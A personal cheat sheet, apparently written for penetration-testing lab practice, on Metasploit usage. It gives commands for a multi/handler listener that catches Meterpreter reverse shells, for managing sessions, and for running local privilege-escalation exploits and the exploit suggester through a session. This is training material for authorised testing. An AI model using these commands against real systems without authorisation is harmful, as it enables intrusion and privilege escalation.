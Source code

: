 # Metasploit
This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options
Metasploit is so derp-easy that you can usually exploit a machine by typing `show options`, setting your machine with `LHOST` and setting the target with `RHOST`. However, sometimes it doesn't work because of an unusual configuration or path issue, which you can set with `show advanced`. You may need to set the correct target using `show targets` as in [MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi). Setting `verbose = true` might also help you understand why an exploit isn't working.

## Meterpreter
To catch shells using meterpreter:
```
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```
If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Sessions
Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:
```
sessions -l
```
To enter a session:
```
sessions -i [session number]
```
To enter a shell from a session (not use meterpreter commands):
```
shell
```
To exit the shell and return to meterpreter, type `exit`.

### Local exploits
Once you have a meterpreter shell, you can scan for local exploits and run them. 

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:
```
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```
You'll need to select a session where the exploit will be run.

The one useful exception I've noticed is the exploit suggester for Windows which can be run from the meterpreter prompt:

```
meterpreter > run /post/multi/recon/local_exploit_suggester
```

